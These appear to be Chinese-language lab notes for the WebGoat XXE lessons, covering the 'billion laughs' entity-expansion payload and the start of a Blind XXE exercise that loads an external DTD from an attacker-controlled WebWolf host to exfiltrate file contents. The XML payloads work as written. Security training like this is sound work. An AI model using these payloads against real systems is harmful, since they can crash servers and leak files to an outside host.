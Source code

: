  使用相同的XXE攻击，我们可以对服务器执行DOS服务攻击。这种攻击的一个例子是: 

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

当XML解析器加载这个文档时，它会看到它包含一个根元素“lolz”，其中包含文本“&lol9;”。然而，“&lol9”是一个被定义的实体，它扩展成一个包含10个“&lol8”字符串的字符串。每个“&lol8”字符串都是一个已定义的实体，它扩展为10个“&lol7”字符串，依此类推。在处理完所有的实体扩展之后，这一小块(< 1 KB) XML实际上将占用近3 gb的内存。

这被称为“十亿笑”，更多信息可以在这里找到:https://en.wikipedia.org/wiki/billion_laughing

## lesson6



### Blind XXE

在某些情况下，您将看不到任何输出，因为尽管您的攻击可能已经奏效，但该字段并未反映在页面的输出中。 或者您尝试读取的资源包含非法XML字符，这会导致解析器失败。 让我们从一个示例开始，在这种情况下，我们引用一个由我们自己的服务器控制的外部DTD。 

**原理就是带着获取的文件源码以 get 参数或其他形式去访问我们的服务器，然后在日志里就可以找到我们要获取的内容了。**

**Blink XXE主要使用了DTD约束中的参数实体和内部实体。**
**参数实体是一种只能在DTD中定义和使用的实体，一般引用时使用%作为前缀。而内部实体是指在一个实体中定义的另一个实体，也就是嵌套定义**。

作为攻击者，您可以控制WebWolf（可以是您控制下的任何服务器。），例如，您可以使用该服务器通过http://192.168.56.101:9090/landing对其进行ping操作

我们如何使用此端点来验证我们是否可以执行XXE？ 

我们可以再次使用WebWolf托管一个名为Attack.dtd的文件，并使用以下内容创建该文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'http://192.168.56.101:9090/landing'>
```

 现在提交表单，将xml更改为： 

```
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://192.168.56.101:9090/WebWolf/files/attack.dtd">
%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>
```
